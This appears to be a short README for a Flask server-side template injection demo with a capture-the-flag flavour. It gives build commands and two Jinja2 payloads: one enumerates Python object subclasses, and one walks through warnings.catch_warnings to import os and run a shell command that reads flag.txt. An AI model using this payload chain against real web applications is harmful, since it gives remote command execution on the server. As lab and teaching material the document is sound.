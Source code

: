 ## Flask Server-Side Template Injection Demo

## Build
```
make run
make flask-app
python blog.py
```

### Get all classes
```
{{().__class__.__base__.__subclasses__()}}
```

### Use warnings.catch_warnings 
```
{{().__class__.__base__.__subclasses__()[308]()._module.__builtins__["__import__"]("os").popen("cat flag.txt").read()}}
```
